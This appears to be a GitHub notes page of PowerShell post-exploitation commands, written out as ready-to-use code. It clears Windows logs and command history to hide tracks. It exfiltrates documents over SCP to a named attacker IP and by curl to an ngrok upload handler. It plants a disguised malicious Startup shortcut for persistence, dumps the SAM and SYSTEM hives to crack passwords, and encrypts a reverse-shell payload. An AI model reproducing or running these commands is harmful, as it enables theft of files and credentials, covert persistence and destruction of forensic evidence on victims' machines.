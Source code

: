# Clear logs

1. Delete winrun history

   ```powershell
   Remove-Item -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU" -Recurse
   ```

2. List powershell command history

   ```powershell
   rm (Get-PSReadlineOption).HistorySavePath;
   ```

3. Clear PowerShell events log (**Administrator only**)

   ```powershell
   clear-eventlog -logname "Windows PowerShell";
   ```

   

# Files exfiltration

### Method 1 - Using SCP

> For example, Hacker's SSH server is **43.56.175.249:55522**

On hacker's SSH server:

```bash
# Open simple python http server on hacker's host
cd ~/.ssh
python3 -m http.server 8880
```

On victim, download and configure private-key:

```bash
# Get private key from hacker's server
curl -o "$home\id_rsa" http://43.56.175.249:8880/id_rsa

# Configure permission
icacls "$home\id_rsa" /inheritance:r; icacls "$home\id_rsa" /grant:r ($(whoami) + ':R')
```

Exploit:

```powershell
# Open new process to send files
Start-Process powershell -windowstyle hidden {scp -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -i "$home\id_rsa" -P 55522 -r "<Full path to folder>/*.docx" lamnc2@43.56.175.249:/home/lamnc2/data_exfil}
```



Copy file from SSH server to local machine:

```bash
scp -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -i "$home\id_rsa" -P 55522 -r lamnc2@43.56.175.249:/home/lamnc2/data_exfil "I:\Temp_safe_to_delete\tmp"
```



### Method 2 - Using Curl

```powershell
# set $folder = folder to upload file
# set $upload_handler = url to upload handler on server
# powershell cmd: IEX (iwr -UseBasicParsing https://raw.githubusercontent.com/[link to this file])
$folder = 'I:\Personal\';
$upload_handler ='http://bc416b4d16e3.ngrok.io/upload_handler.php';
$name = [uri]::EscapeDataString((whoami));
$a = ''; (Get-ChildItem $folder -Filter '*' -Recurse -File | %{$a = $a + " -F `"file[]=@" + $_.FullName + "`" "});
$eval = "curl.exe $a $upload_handler`?folder=$name";
IEX $eval;
```

#### one-line

```powershell
$folder = 'F:\IAR401\';  $upload_handler='http://bc416b4d16e3.ngrok.io/upload_handler.php'; $name = 'hi'; $a = ''; (Get-ChildItem $folder -Filter '*.docx' -Recurse -File | %{$a = $a + " -F `"file[]=@" + $_.FullName + "`" "}); $eval = "curl.exe $a $upload_handler`?folder=$name";IEX $eval;
```



# Startup shortcut to perform scripts

### Idea

Store a malicious shortcut in startup folder. 

- startup folder (for current user) `C:\Users\<current user>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` = `$HOME\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`
- startup folder (for public user)



### Create malicious shortcut

![image-20201102112123102](/PowerShell%20scripts%20images/image-20201102112123102.png)



### Procedure

1. change dir to startup folder: `cd "$HOME\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"`

2. download malicious shortcut using 

   1. **Cmd**:

      `curl -L https://github.com/lamthanhnam/fpt_do-an_2020/raw/master/post_exploitation/start_up/hi.lnk` 

      - `-L`: follow redirection

   2. **Powershell**:

      `curl https://github.com/lamthanhnam/fpt_do-an_2020/raw/master/post_exploitation/start_up/hi.lnk`

   

#### **One-line command**

```bash
cd "$HOME\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"; curl -o "Microsoft Edge.lnk" https://github.com/lamthanhnam/public/raw/master/start_up/hi.lnk
```





# Get SAM and SYSTEM file for password decryption

```powershell
reg save hklm\sam $env:PUBLIC\Documents\hi_sam
reg save hklm\system $env:PUBLIC\Documents\hi_system
```





# Symmetric Encryption

Apply symmetric encryption to encrypt payload

```powershell
# Use with one-line command only
# Initial vars
$PayloadPath = "$pwd\rs_pay_final"
# $key = "1234567890123456" #<16, 24, 32 chars>
# $skey = [byte[]]("$key").ToCharArray()
$skey = (1..16)

# create secure string
$content = cat $PayloadPath

#---------- Encrypt -------------
$ss = ConvertTo-SecureString -String "$content" -Force -AsPlainText
$cipher = ConvertFrom-SecureString -SecureString $ss -Key $skey #Converts a secure string to an encrypted standard string

#----------- Decrypt -------------
# Apply to: https://docs.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.securestringtobstr?view=netcore-3.1#moniker-applies-to
# Ref: https://stackoverflow.com/a/28353003

# ----- Prepare variable for decrypt
$cipher = "..."
$skey = [byte[]]
$ss = ConvertTo-SecureString -String $cipher -Key $skey #Converts an encrypted standard string to a secure string

# ----- DECRYPT METHOD 1
Function ConvertTo-UnsecureString {
   Param (
       [System.Security.SecureString]$ss
   )
   Try { # main decode function
       $ptr = [System.Runtime.InteropServices.Marshal]::SecureStringToGlobalAllocUnicode($ss)
       [System.Runtime.InteropServices.Marshal]::PtrToStringUni($ptr)
   }
   Finally {
       [System.Runtime.InteropServices.Marshal]::ZeroFreeGlobalAllocUnicode($ptr)
   }
}
$plain = ConvertTo-UnsecureString $ss

# ----- DECRYPT METHOD 2
$BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($ss)
$plain = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)

echo $plain

# ---------- Print output -------------------
Write-Host -NoNewline "$cipher"
#-------------- Write encrypted payload to file -------
Out-File -FilePath .\encrypted_rs_pay -InputObject "$func`n$cipher" -Encoding ASCII
Out-File -FilePath "$pwd\encrypted_payload" -InputObject "$cipher" -Encoding ASCII -NoNewline ;
```



# Basic

### Tail

> Equivalent to tail command in Linux

```
 Get-Content .\access.log -Wait -Tail 3
```